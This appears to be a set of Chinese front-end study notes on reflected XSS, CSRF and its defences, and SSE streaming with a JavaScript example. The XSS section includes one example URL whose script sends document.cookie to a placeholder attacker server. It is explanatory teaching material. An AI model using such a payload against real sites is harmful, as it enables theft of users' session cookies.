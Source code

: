 * 反射型 XSS

攻击者注入的恶意代码不会被服务器存储，而是通过 “URL 参数、表单提交” 等方式，让服务器将恶意代码 “临时反射” 到页面中 —— 只有点击了攻击者构造的 “恶意链接” 的用户才会触发攻击

攻击者伪造了如下的url
```javascript
https://目标网站/search?keyword=<script>alert('你的Cookie被偷了！');fetch('https://攻击者服务器/steal?cookie='+document.cookie)</script>
```
当用户点击该url的时候，前端有可能依赖keyword字段，导致=后的内容被执行，cookie被盗取


## CSRF 跨站请求伪造

1. 用户在一个网站(a.com)登录后，网站的cookie被储存在硬盘中。

2. 此时登陆了一个钓鱼网站(b.com)，钓鱼网站中存在访问a.com的链接，访问a.com时会自动携带同域下的cookie，导致伪装了用户的登录态

解决方法:

* 后端针对每个页面给出随机token,前端需要携带此token发送请求(即必须有实际页面访问才可以进行操作)
* 后端配置cookie的SameSite=Strict/Lax 属性，限制 Cookie 仅在 “同源请求” 或 “用户主动跳转的跨域请求” 中携带，阻止自动发起的跨域请求携带 Cookie。这个方法存在一定的兼容性问题
* 验证请求来源：检查 HTTP 头中的 `Referer` 或 `Origin` 字段，确保请求来自受信任的域名（origin一般是请求来自的域名，referer可以具体到路由信息和参数）。但是这两个字段并不是每次请求都会携带，不能完全依赖（会根据浏览器环境等因素产生差异）
* 最安全的方法就是不使用cookie进行身份验证，而是使用 `Authorization` 头携带 Token（如 JWT），并且前端通过 `fetch` 或 `XMLHttpRequest` 发起请求时，**不设置 `credentials` 选项**，这样浏览器就不会自动携带 Cookie，从而避免 CSRF 攻击


## SSE 流式输出

SSE 允许服务器主动向浏览器或其他客户端推送事件。SSE的设计主要是为了简化从**服务器到客户端的单向实时数据流**。

SSE 基于 HTTP 协议，使用标准的HTTP请求来开始连接。首先客户端发起标准的 HTTP GET 请求开始一个SSE连接。请求的头部通常包含`Accept: text/event-stream`，这告诉服务器客户端希望开启一个SSE连接。服务器响应这个请求，并保持连接打开，响应的 `Content-Type` 被设置为`text/event-stream`。随后，服务器可以发送形式为纯文本的事件流。每个事件以一个可选的事件名和必须的数据字段组成。事件以data:开始，后跟具体的消息数据，事件之间以两个换行符\n\n分隔。整个过程中 HTTP 连接保持打开状态，服务器可以随时发送新事件，客户端在接收到每个事件后处理数据。SSE连接一旦建立，服务器可以持续不断地发送数据更新到客户端，直到连接被关闭。SSE可以自动重连（浏览器完成），默认重试间隔为3s，连续重连失败会采用指数退避” 策略（如第 1 次等 3 秒，第 2 次等 6 秒，第 3 次等 12 秒，上限通常为 30 秒），避免无效重试；

SSE只支持GET请求，无法自定义header内容(头部信息配置由`new EventSource()`时自动配置，但可以携带cookie)

使用方法
```javascript
// 1. 初始化 SSE 连接，指向后端 SSE 接口
const sse = new EventSource('http://localhost:80/api/sse');

// 2. 监听“默认类型数据”
sse.onmessage = (e) => {
  console.log('收到默认消息：', e.data); // e.data 是服务器推送的字符串数据
  // 业务逻辑：展示消息到页面
  TODO
};

// 3. 页面卸载前关闭连接（避免内存泄漏）
window.addEventListener('beforeunload', () => {
  if (sse) {
    sse.close();
  }
});
```
